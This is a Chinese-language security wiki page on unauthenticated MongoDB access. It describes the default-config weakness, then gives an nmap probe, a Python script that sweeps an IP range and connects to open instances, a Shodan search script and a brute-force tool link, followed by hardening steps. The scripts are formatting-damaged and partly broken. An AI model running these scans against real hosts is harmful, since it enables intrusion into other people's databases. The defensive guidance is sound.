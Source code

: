 ```yaml
---
title: "Mongo DB未授权访问"
id: zhfly3031
---
```


# MongoDB未授权访问

## 一、漏洞简介

MongoDB 默认直接连接，无须身份验证，如果当前机器可以公网访问，且不注意Mongodb 端口（默认 27017）的开放状态，那么Mongodb就会产生安全风险，被利用此配置漏洞，入侵数据库。

*   使用默认 mongod 命令启动 Mongodb
*   机器可以被公网访问
*   在公网上开放了 Mongodb 端口
*   数据库隐私泄露
*   数据库被清空
*   数据库运行缓慢

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

#### 2\. 下载：

http://nmap.org/svn/scripts/mongodb-info.nse

```
nmap -p 27017 --script mongodb-info <ip> 
```

![image](../img/3d8709b0cdcb0dbbec443c096f7349ed.png)

```
vim /etc/mongodb.conf
dbpath = /data/
logpath = /var/logs/mongodb.log
##port = 27017
##fork = true
bind_ip = 0.0.0.0 `./mongod –config mongodb.conf [//启动mongodb加载配置mongodb.conf](//xn--mongodbmongodb-rp1xpdy51a6z2tx0pcfuh.conf)` 
```

##### 1.1 基础

*   https://www.jianshu.com/p/8bf26effa737
*   http://www.runoob.com/mongodb/mongodb-tutorial.html
*   https://itbilu.com/database/mongo/E1tWQz4_e.html

##### 1.2 批量扫描未授权

```
import socket
import sys
import pymongo

ipcons = []

def Scanner(ip):

global ipcons

sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sk.settimeout(0.3)

try:

sk.connect((ip,27017))

ipcons.append(ip)

sk.close()

except Exception:

pass

def ip2num(ip):

ip=[int(x) for x in ip.split(’.’)]

return ip[0] <<24 | ip[1]<<16 | ip[2]<<8 |ip[3]

def num2ip(num):

return ‘%s.%s.%s.%s’ %( (num & 0xff000000) >>24,

(num & 0x00ff0000) >>16,

(num & 0x0000ff00) >>8,

num & 0x000000ff )

def get_ip(ip):

start,end = [ip2num(x) for x in ip.split(’ ') ]

return [ num2ip(num) for num in range(start,end+1) if num & 0xff ]

startIp = sys.argv[1]

endIp = sys.argv[2]

iplist = get_ip(sys.argv[1]+" "+sys.argv[2])

for i in iplist:

Scanner(i)

def connMon(ip_addr):

print ’ Connect mongodb: ’ + ip_addr + ‘:27017’

try:

conn = pymongo.MongoClient(ip_addr,27017,socketTimeoutMS=3000)

dbname = conn.database_names()

print “success”

except Exception as e:

print “error”

print ipcons

for ipaddr in ipcons:

connMon(ipaddr)

print “=================” 
```

##### 1.3 shodan扫描脚本

```
##!/usr/bin/python
## -*- coding: UTF-8 -*-
'''
@Author：joy_nick
@博客：http://byd.dropsec.xyz/
'''
import shodan
import os
iplist = []
ip_list = []
shodan_ip_list = []
def shodanSearch(keywords):
    SHODAN_API_KEY = "your key"
    api = shodan.Shodan(SHODAN_API_KEY)
    total = 0
    try:
        results = api.search(keywords)
        total = int(results['total'])
        for result in results['matches']:
            ##iplist.append({"ip":result['ip_str'],"country":result['location']['country_name']})
            iplist.append(result['ip_str'])
            for i in range(len(iplist)):
                ip_list = iplist[i].encode('utf-8')
                shodan_ip_list.append(ip_list)
                s = '\n'.join(shodan_ip_list)
                with open('shodan_ip_list.txt','w') as output:
                    output.write(s)
    except shodan.APIError, e:
        print 'Error: %s' % e
if __name__ == '__main__':
    shodanSearch('redis') 
```

查询操作

![image](../img/dfc06acb4f8d9aa164ae7371b1e31bcd.png)

#### 2\. 爆破脚本

https://github.com/netxfly/x-crack

#### 4\. 防范措施

**(1).新建管理账户开启MongoDB授权**
新建终端[参数默认可以不加，若有自定义参数，才要加上，下同]
mongod --port 27017 --dbpath /data/db1

另起一个终端，运行下列命令

```
mongo --port 27017

use admin

db.createUser(

{

user: “adminUser”,

pwd: “adminPass”,

roles: [ { role: “userAdminAnyDatabase”, db: “admin” } ]

}

) 
```

管理员创建成功，现在拥有了用户管理员 用户名:adminUser 密码:adminPass

![image](../img/34775b8ba7f71f32f094105952bb000b.png)

**(2).本地访问**
bind 127.0.0.1
**(3).修改默认端口**
修改默认的mongoDB端口(默认为: TCP 27017)为其他端口

**(4).禁用HTTP和REST端口**
MongoDB自身带有一个HTTP服务和并支持REST接口。在2.6以后这些接口默认是关闭的。mongoDB默认会使用默认端口监听web服务，一般不需要通过web方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择–nohttpinterface 参数nohttpinterface = false
**(5).开启日志审计功能**
审计功能可以用来记录用户对数据库的所有相关操作。这些记录可以让系统管理员在需要的时候分析数据库在什么时段发生了什么事情
**(6).开启auth认证**

```
/etc/mongodb.conf  
auth = true 
```

其他:http://www.mottoin.com/105609.html